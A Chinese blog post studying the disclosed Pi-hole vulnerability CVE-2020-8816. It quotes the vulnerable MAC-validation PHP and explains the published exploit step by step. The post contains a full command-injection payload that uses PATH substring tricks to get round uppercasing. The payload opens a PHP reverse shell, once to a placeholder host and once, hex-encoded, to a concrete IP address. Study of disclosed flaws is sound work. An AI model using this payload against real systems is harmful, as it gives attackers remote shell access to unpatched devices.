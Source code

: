 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      CVE-2020-8816的学习-远程代码执行               # 标题 
subtitle:   远程代码执行的一个学习
date:       2020-04-02             # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


##  先截取一些有关的重要源码：
```
function validMAC($mac_addr)
{
  // Accepted input format: 00:01:02:1A:5F:FF (characters may be lower case)
  return (preg_match('/([a-fA-F0-9]{2}[:]?){6}/', $mac_addr) == 1);
}
$mac = $_POST["AddMAC"];
if(!validMAC($mac))
{
         $error .= "MAC address (".htmlspecialchars($mac).") is invalid!<br>";
}
$mac = strtoupper($mac);
if(!strlen($error))
{
       exec("sudo pihole -a addstaticdhcp ".$mac." ".$ip." ".$hostname);
       $success .= "A new static address has been added";
}
break;
```
简单解析一下：用POST的方法获取mac地址，然后使用正则判断是否符合mac地址规则，然后把所有的字符用strtoupper处理，就没有小写字母了，最后传入exec函数执行。

## 0x00 EXPLOIT(漏洞已经披露，我就学习思想吧):
- 对于**preg_match**函数，一旦匹配成功即返回1，这里的正则匹配可以让用户输入构造超预期长度的字符串类似```aaaaaaaaaaaa&&fajifla```,所以可在后面拼接
我们的其他命令，利用连接符即可。由于这是php代码，我们就用php一句话反弹shell吧，初步构造：  
```aaaaaaaaaaaa&&php -r ‘$sock=fsockopen(“ip”,port);exec(“/bin/sh -i <&3 >&3 2>&3”);’```  
- 然后该payload会经过strtoupper函数的处理，会将```php -r ```转化为``` PHP -R```，在linux下大小写敏感，会导致该payload失败，出现“PHP not found”。  
- 接下来就是一个比较犀利的操作了，作者通过构造aaaaaaaaaaaa$PATH获取了环境变量信息，恰好里面有p、h、r的字符，然后就是我第一次见到的操作了：
- 由于上条payload返回了以下内容：```AAAAAAAAAAAA/opt/pihole:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin```  
```
接下来就是利用shell来处理：  
W=${PATH#/???/}  
P=${W%%?????:}  
X=${PATH#/???/??}  
H=${X%%???:}  
Z=${PATH#:/??}  
R=${Z%%/}
```
这里的用法就是让'''P H R'''匹配'''p h r'''，这里涉及到shell的字符串处理，还算是简单的，```#```删除后面跟着的匹配字符串，```%%```截取从尾部最远的匹配删除。
然后构造：
```
aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}
&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS’EXEC(HEX2BIN(“706870202D72202724736F636B3D66736F636B6F70656E28223
1302E312E302E39222C32323536293B6578656328222F62696E2F7368202D69203C2633203E263320323E263322293B27”));’&&
```
其中hextobin里面的内容为php -r ‘$sock=fsockopen(“ip”,port);exec(“/bin/sh -i <&3 >&3 2>&3”);’，这样子我们就清晰了，
构造php -r exec去执行php -r ‘$sock=fsockopen(“ip”,port);exec(“/bin/sh -i <&3 >&3 2>&3”);’，这样子攻击就完成了，作者成功getshell。

## 0x01总结：  
此次学习中，有些个人心得，有些业务功能是可以从功能上分析出可能会使用到系统函数或者可以执行命令的函数的，能有源码的情况下，挖掘命令执行会比较
有针对性，针对过滤函数的绕过需要不断的学习总结学习总结，然后去测试绕过，shell命令在RCE中是挺重要的，随着防护的加强，我们需要的是更加笃实的基础
利用更加有效的方式来进行，该次学习中，收获挺大，善于利用shell、和编码组合能有奇效O(∩_∩)O哈哈~，以后会多思考不同方式的配合来测试漏洞的。



